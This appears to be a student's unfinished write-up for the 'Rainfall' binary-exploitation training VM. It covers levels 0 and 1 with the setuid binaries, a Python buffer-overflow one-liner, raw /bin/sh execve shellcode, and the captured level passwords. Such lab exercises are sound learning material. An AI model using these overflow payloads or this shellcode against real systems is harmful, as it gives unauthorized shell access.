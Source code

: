 # Rainfall

Port forwarding and shit

```
$ ssh level0@127.0.0.1 -p 25424
          _____       _       ______    _ _ 
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level0@127.0.0.1's password: 
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/level0/level0
```

## for gdb

```
(gdb) set disassembly-flavor intel
```

abcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcd0x08048444

abcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcd\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

## level0

```
$ getfacl level0
# file: level0
# owner: level1
# group: users
# flags: s--
user::rwx
user:level0:r-x
user:level1:r-x
group::---
mask::r-x
other::---
```
Since the setUID bit is set, the level0 is run with the privilege of level1. 
So looking at the dissasembled code we see that we need to run ./level 423 to escape the condition that prints "No !"
Therefore the program runs a shell with level1 right, so we cd into level1 and
```
cat .pass
1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```

## level1

```
$ (python -c 'print("\x90" * 60 + "A" * 16 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
pwd
/home/user/level1
cd
/bin/sh: 2: cd: can't cd to /home/user/level1
cd /home/user/level2
ls
level2
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

76 why????
+16 why ????
explain nop sled

## level2

ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo